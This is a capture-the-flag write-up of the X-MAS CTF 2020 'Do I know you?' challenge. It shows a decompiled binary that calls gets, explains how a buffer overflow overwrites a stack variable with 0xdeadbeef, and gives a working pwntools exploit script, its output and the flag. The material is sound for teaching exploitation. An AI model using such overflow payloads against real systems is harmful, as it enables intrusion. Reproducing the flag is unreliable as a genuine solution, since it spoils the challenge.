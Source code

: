 # X-MAS CTF 2020

## Do I know you?

> ??
>
> You walk on the street. This guy seems to recognize you. What do you do?
>
> Target: `nc challs.xmas.htsp.ro 2008`
> 
> Author: Th3R4nd0m
> 
> [doiknowyou.zip](doiknownyou.zip)

Tags: _pwn_ _x86-64_ _bof_ _variable-overwrite_


## Summary

Basic variable overwrite BOF.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  long in_FS_OFFSET;
  char local_38 [32];
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Hi there. Do I recognize you?");
  gets(local_38);
  if (local_18 != 0xdeadbeef) {
    puts("Nope.....I have no idea who you are");
    exit(0);
  }
  puts("X-MAS{Fake flag. You\'ll get the real one from the server }");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

The vulnerability is `gets(local_38)`, after that a check, that if not passed, will `exit`, otherwise print the flag (next statement).

To get the flag just overflow `local_38` into `local_18` with `0xdeadbeef`, i.e. write out `0x38 - 0x18` bytes of garbage followed by `0xdeadbeef`.

> `0x38 - 0x18` is the difference of offsets within the stack frame.  `local` `_38` and `_18` give away the offsets within the stack.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

p = remote('challs.xmas.htsp.ro', 2008)

payload  = b''
payload += (0x38 - 0x18) * b'A'
payload += p64(0xdeadbeef)

p.sendlineafter('you?\n', payload)
p.stream()
```


Output:

```bash
[+] Opening connection to challs.xmas.htsp.ro on port 2008: Done
X-MAS{ah_yes__i_d0_rememb3r_you}
```

